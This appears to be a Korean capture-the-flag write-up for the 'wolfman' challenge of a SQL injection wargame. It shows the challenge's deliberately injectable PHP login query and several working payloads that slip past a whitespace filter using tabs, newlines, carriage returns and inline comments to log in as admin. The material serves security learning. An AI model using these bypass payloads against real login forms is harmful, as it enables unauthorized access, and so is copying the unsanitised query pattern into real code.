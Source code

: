 # Wolfman Problem

![Wolfman image](../image/wolfman_web_page.png)

### hint

sql injection 공백 우회

### los rubiya Problem Script

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

### 핵심

```php
if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");
if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
if($result['id'] == 'admin') solve("wolfman"); 
```

preg_match에 의해서 공백에 의해 exit() 가 나오는것을 볼 수 가있다.

즉 공백을 우회해서 id 가 admin으로 나와야된다.

<details>
<summary>Payload</summary>
<div markdown="1">

```sql
%27/**/or/**/1=1/**/limit/**/1,1/**/%23%27
> select id from prob_wolfman where id='guest' and pw=''/**/or/**/1=1/**/limit/**/1,1/**/#''

%27%09or%091=1%09limit%091,1%09%23%27
> select id from prob_wolfman where id='guest' and pw=''    or    1=1    limit    1,1    #''

%27%0aor%0a1=1%0alimit%0a1,1%0a%23%27
> select id from prob_wolfman where id='guest' and pw=''\nor\n1=1\nlimit\n1,1\n#''

%27%0dor%0d1=1%0dlimit%0d1,1%0d%23%27
> select id from prob_wolfman where id='guest' and pw=''\ror\r1=1\rlimit\r1,1\r#''

%27/**/or/**/id=%27admin%27%23%27
> select id from prob_wolfman where id='guest' and pw=''/**/or/**/id='admin'#''

%27%09or%09id=%27admin%27%23%27
> select id from prob_wolfman where id='guest' and pw=''    or    id='admin'#''

%27%0aor%0aid=%27admin%27%23%27
> select id from prob_wolfman where id='guest' and pw=''\nor\nid='admin'#''

%27%0dor%0did=%27admin%27%23%27
> select id from prob_wolfman where id='guest' and pw=''\ror\rid='admin'#''
```

query 를 완성시켜서 admin 유저가 나오게 하는 대신에

공백을 우회시켜 쿼리를 완성해야된다.

공백을 우회하기위해서는 주로 %0d %0a %09 /**/ 등으로 공백을 우회해서 할 수 있다.
```
%09 -> tab 한칸

%0a -> \n

%0d -> \r
```
</div>
</details>